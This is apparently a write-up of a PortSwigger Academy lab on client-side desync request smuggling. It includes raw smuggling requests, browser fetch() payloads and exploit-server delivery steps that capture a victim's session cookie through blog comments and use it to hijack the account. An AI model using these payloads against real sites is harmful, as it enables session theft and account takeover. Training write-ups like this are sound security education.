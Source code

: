 #  Lab: Client-side desync

## 📌 Lab Details
- **Title**: Lab: Client-side desync
- **Difficulty**: Expert
- **Category**: HTTP Request Smuggling
- **Lab URL**: https://portswigger.net/academy/labs/launch/c7e1e3ecc45431f9694ade69d2c269fdfedcff87aa2cb4525dd503090d7d467e?referrer=%2fweb-security%2frequest-smuggling%2fbrowser%2fclient-side-desync%2flab-client-side-desync

## 🔍 Summary
Client-side desync is a request-smuggling variant where a server (or proxy) ignores `Content-Length`, letting attacker-supplied bytes inside a browser POST be parsed as a second HTTP request. In the lab you confirm the desync in Burp, reproduce it from a real browser with `fetch()`, use the comment feature as a gadget to store leaked request text, exfiltrate a victim’s `session` cookie, and reuse that cookie to access the victim account.

## 🛠 Steps to Solve
**Identify a vulnerable endpoint**
1. Send the `GET /` request to Burp Repeater.
2. Disable the **Update Content-Length** option in the tab-specific settings.
3. Change the request method to **POST**.
4. Change the `Content-Length` to 1 or higher and leave the body empty.
5. Send the request. Observe that the server responds immediately rather than waiting for the body. This suggests that it is ignoring the specified `Content-Length`.

**Confirm the desync vector in Burp**
1. Re-enable the **Update Content-Length** option.
2. Add an arbitrary request smuggling prefix to the body:
   ```sh
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.h1-web-security-academy.net
   Connection: close
   Content-Length: CORRECT

   GET /hopefully404 HTTP/1.1
   Foo: x
   ```
3. Add a normal request for `GET /` to the tab group, after your malicious request.
4. Change the **send** method to **send group in sequence**(single connection).
5. Change the `Connection` header of the first request to `keep-alive`.
6. Send the sequence and check the responses. If the response to the second request matches what you expected from the smuggled prefix (in this case, a 404 response), this confirms that you can cause a desync.

**Replicate the desync vector in your browser**
1. Open a separate instance of Chrome that is **not** proxying traffic through Burp.
2. Go to the exploit server.
3. Open the browser developer tools and go to the **Network** tab.
4. Ensure that the **Preserve log** option is selected and clear the log of any existing entries.
5. Go to the **Console tab** and replicate the attack from the previous section using the `fetch()` API as follows:
   ```sh
   fetch('https://YOUR-LAB-ID.h1-web-security-academy.net', {
    method: 'POST',
    body: 'GET /hopefully404 HTTP/1.1\r\nFoo: x',
    mode: 'cors',
    credentials: 'include',
    }).catch(() => {
        fetch('https://YOUR-LAB-ID.h1-web-security-academy.net', {
        mode: 'no-cors',
        credentials: 'include'
    })
    })
   ```
   Note that we're intentionally triggering a CORS error to prevent the browser from following the redirect, then using the **catch()** method to continue the attack sequence.
6. On the Network tab, you should see two requests:
   - The main request, which has triggered a CORS error.
   - A request for the home page, which received a 404 response.
   This confirms that the desync vector can be triggered from a browser.

**Identify an exploitable gadget**
1. Back in Burp's browser, visit one of the blog posts and observe that this lab contains a comment function.
2. From the **Proxy > HTTP history**, find the `GET /en/post?postId=x` request. Make note of the following:
   - The `postId` from the query string.
   - Your `session` and `_lab_analytics` cookies.
   - The `csrf` token.
3. In Burp Repeater, use the desync vector from the previous section to try to capture your own arbitrary request in a comment. For example:<br>
   **Request 1:**
   ```sh
   POST / HTTP/1.1
   Host: YOUR-LAB-ID.h1-web-security-academy.net
   Connection: keep-alive
   Content-Length: CORRECT

   POST /en/post/comment HTTP/1.1
   Host: YOUR-LAB-ID.h1-web-security-academy.net
   Cookie: session=YOUR-SESSION-COOKIE; _lab_analytics=YOUR-LAB-COOKIE
   Content-Length: NUMBER-OF-BYTES-TO-CAPTURE
   Content-Type: x-www-form-urlencoded
   Connection: keep-alive

   csrf=YOUR-CSRF-TOKEN&postId=YOUR-POST-ID&name=wiener&email=wiener@web-security-academy.net&website=https://ginandjuice.shop&comment=
   ```
   **Request 2:** Send a normal `GET /` request.
   
   Note that the number of bytes that you try to capture must be longer than the body of your `POST /en/post/comment` request prefix, but shorter than the follow-up request.
4. Back in the browser, refresh the blog post and confirm that you have successfully output the start of your GET /capture-me request in a comment.

**Replicate the attack in your browser**
1. Open a separate instance of Chrome that is not proxying traffic through Burp.
2. Go to the exploit server.
3. Open the browser developer tools and go to the Network tab.
4. Ensure that the **Preserve log** option is selected and clear the log of any existing entries.
5. Go to the Console tab and replicate the attack from the previous section using the fetch() API as follows:
   ```sh
   fetch('https://YOUR-LAB-ID.h1-web-security-academy.net', {
        method: 'POST',
        body: 'POST /en/post/comment HTTP/1.1\r\nHost: YOUR-LAB-ID.h1-web-security-academy.net\r\nCookie: session=YOUR-SESSION-COOKIE; _lab_analytics=YOUR-LAB-COOKIE\r\nContent-Length: NUMBER-OF-BYTES-TO-CAPTURE\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=YOUR-CSRF-TOKEN&postId=YOUR-POST-ID&name=wiener&email=wiener@web-security-academy.net&website=https://portswigger.net&comment=',
        mode: 'cors',
        credentials: 'include',
    }).catch(() => {
        fetch('https://YOUR-LAB-ID.h1-web-security-academy.net/capture-me', {
        mode: 'no-cors',
        credentials: 'include'
    })
    })
   ```
6. On the Network tab, you should see three requests:
   - The initial request, which has triggered a CORS error.
   - A request for `/capture-me`, which has been redirected to the post confirmation page.
   - A request to load the post confirmation page.
7. Refresh the blog post and confirm that you have successfully output the start of your own `/capture-me` request via a browser-initiated attack.   

**Exploit**
1. Go to the exploit server.
2. In the **Body** panel, paste the script that you tested in the previous section.
3. Wrap the entire script in HTML <script> tags.
4. Store the exploit and click Deliver to victim.
5. Refresh the blog post and confirm that you have captured the start of the victim user's request.
6. Repeat this attack, adjusting the `Content-Length` of the nested `POST /en/post/comment` request until you have successfully output the victim's session cookie.
7. In Burp Repeater, send a request for `/my-account` using the victim's stolen cookie to solve the lab.

## 📖 Key Takeaways
- **Desync vector**: If front-end and back-end disagree about message boundaries (e.g., server ignores `Content-Length`), attacker-controlled payloads inside a POST body can be parsed as a new request.
- **Client-side trigger**: Modern browsers can be induced to send those bytes using `fetch()` (or similar) so the attack is executed from the victim’s browser — no direct server-side exploit needed.
- **Tight tuning**: The success depends on carefully chosen `Content-Length` values (capture size must be > your nested body prefix but < follow-up request size). Iteration is normal.
- **Impact**: Stolen session cookies let the attacker hijack the victim’s account without needing traditional XSS or CSRF.

## 🖼️ Screenshot 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/c5a99f5a-0a89-4095-8b0d-99158fe71c6f" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/3d5dfd4b-3435-4f95-9235-ac4c82a7a2b8" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/4ec5e981-5074-4628-b26b-36cd97a4ede0" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/21ee97c6-a6e9-47f1-8220-059e955f6e71" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/c77cb84b-9741-4042-8c96-390fd099a165" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/57035128-0896-4196-93c4-0c9e34c12b27" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/312d8925-c9aa-4d74-a453-33b5c6fa49b2" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/6530c189-0258-4906-b049-0bccdf452b3a" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/bd028193-1029-4b44-83ce-82bb72bd35bf" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/a0610c3c-e769-4e70-a5f5-e4c7b0212563" />
